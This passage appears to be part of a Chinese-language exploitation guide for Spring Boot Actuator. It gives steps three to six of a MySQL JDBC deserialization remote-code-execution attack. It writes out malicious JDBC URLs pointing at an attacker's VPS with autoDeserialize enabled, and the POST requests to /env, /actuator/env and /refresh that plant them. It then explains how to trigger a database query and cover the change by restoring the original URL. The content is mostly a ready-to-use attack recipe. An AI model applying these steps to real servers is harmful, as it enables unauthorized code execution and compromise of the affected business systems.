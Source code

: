 在脚本**同目录下**生成 `payload.ser` 反序列化 payload 文件，供脚本使用。

##### 步骤三：设置 spring.datasource.url 属性

> 修改此属性会暂时导致网站所有的正常数据库服务不可用，会对业务造成影响，请谨慎操作！

mysql-connector-java 5.x 版本设置**属性值**为：

```php
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

mysql-connector-java 8.x 版本设置**属性值**为：

```php
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

spring 1.x

```php
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.url=对应属性值
```

spring 2.x

```php
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.url","value":"对应属性值"}
```

##### 步骤四：刷新配置

spring 1.x

```php
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```php
POST /actuator/refresh
Content-Type: application/json
```

##### 步骤五：触发数据库查询

尝试访问网站已知的数据库查询的接口，例如： `/product/list` ，或者寻找其他方式，主动触发源网站进行数据库查询，然后漏洞会被触发

##### 步骤六：恢复正常 jdbc url

反序列化漏洞利用完成后，使用 **步骤三** 的方法恢复 **步骤一** 中记录的 `spring.datasource.url` 的原始 `value` 值
